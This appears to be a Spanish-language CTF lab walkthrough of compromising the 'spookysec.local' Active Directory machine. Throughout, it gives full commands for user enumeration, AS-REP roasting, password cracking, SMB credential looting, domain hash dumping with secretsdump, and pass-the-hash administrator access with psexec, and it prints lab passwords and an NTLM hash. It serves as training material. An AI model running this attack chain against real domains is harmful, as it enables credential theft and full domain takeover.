 Realizamos un escaneo de nmap y encontramos los siguientes puertos abiertos
![[Pasted image 20240717073153.png]]
![[Pasted image 20240717073229.png]]

Agregamos los nombres de la maquina a nuestra host
![[Pasted image 20240717073612.png]]

Hacemos una enumeración con enum4linux
![[Pasted image 20240717073714.png]]

Y encontramos unos posibles usuarios y grupos
![[Pasted image 20240717073808.png]]

Ahora realizamos una enumeracion de usuarios con kerbrute y encontramos que hay un usuario que no necesita credenciales para validarse
```
kerbrute userenum --dc 10.10.143.170 -d THM-AD userlist.txt -o users.txt
```
![[Pasted image 20240717103359.png]]

Ahora en este punto podemos hacer uso de [[4 - ASREPRoasting con Kerbrute y GetNPUsers]] para enviar una petición como este usuario y recibir el TGT con la contraseña hasheada del mismo
```
GetNPUsers.py spookysec.local/svc-admin -no-pass
```
![[Pasted image 20240717104000.png]]

Y ahora podemos crackearlo con john the ripper
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
![[Pasted image 20240717104616.png]]

Y ya tenemos las credenciales del usuario svc-admin:
```python
usuario --> svc-admin
contraseña --> management2005
```

Ahora podemos listar los recursos con smbclient
```
smbclient -L spookysec.local --user svc-admin --password management2005
```
![[Pasted image 20240717105349.png]]

Ahora accedemos a la ruta de backup y encontramos unas credenciales
```
smbclient \\\\spookysec.local\\backup --user svc-admin --password management2005
```
![[Pasted image 20240717105653.png]]

Nos descargamos el fichero
```
get backup_credentials.txt
```
![[Pasted image 20240717105748.png]]

Al leer el fichero encontramos el contenido encriptado en base64
![[Pasted image 20240717105923.png]]

La desencriptamos
![[Pasted image 20240717110257.png]]
```
backup@spookysec.local:backup2517860
```

Ahora que hemos visto que en el recurso compartido del usuario backup pudimos descargar un hash, vamos a utilizar una herramienta que se llama secretdump de impacket para dumpear los hashes de todos los usuarios del dominio [[Secretdump]]
```
secretsdump.py -just-dc backup@10.10.143.170
```
![[Pasted image 20240717113907.png]]

Y ahora que tenemos el hash del usuario administrador, podemos loguearnos directamente y obtener una reverse shell proporiconando simplemente este hash, lo cual se conoce comopass the hash, [[6 - Pass The Hash con psexec y wmiexec]]:
```
psexec.py Administrator@spookysec.local -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc
```
![[Pasted image 20240717113510.png]]


--------
Podemos utilizar la herramienta **bloodhound** para obtener mas informacion sobre el sistema y el dominio
```
bloodhound-python -u svc-admin -p management2005 -ns 10.10.193.144 -d spookysec.local -c all
```
![[Pasted image 20240718092111.png]]
- `-u`: Especifica el usuario
- `-p`: Especifica la contraseña
- `-ns 10.10.193.144`: Indica la dirección IP (`10.10.193.144`) del servidor DNS que se utilizará para resolver nombres en el dominio (`spookysec.local`)
- `-d spookysec.local`: Especifica el nombre del dominio de Active Directory
- `-c all`: Indica que se deben recoger todos los datos posibles durante la exploración

Ahora solo falta cargar los archivos en `bloodhound` y ya nos mostrara toda la información, para cargar la información tenemos este boton
![[Pasted image 20240718092255.png]]

Y seleccionamos los ficheros previamente obtenidos
![[Pasted image 20240718092328.png]]

Aqui podremos ver los avances de la subida
![[Pasted image 20240718092402.png]]

Ahora con toda la información subida si accedemos al menu de arriba a la izquierda y seleccionamos el usuario comprometido podremos revisar toda la información
![[Pasted image 20240718093035.png]]

Seleccionamos al usuario como owned
![[Pasted image 20240718093105.png]]

Y ahora si vamos a analizar podremos revisar todas sus vulnerabilidades y a que tenemos acceso con este usuario y como escalar privilegios
![[Pasted image 20240718093219.png]]


-----
también podemos usar las mismas herramientas pero nativas de Kali linux con el prefijo `impacket`
```
impacket-psexec Administrator@spookysec.local -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc
```
![[Pasted image 20240717113302.png]]

```
impacket-secretsdump -just-dc backup@10.10.143.170
```
![[Pasted image 20240717112613.png]]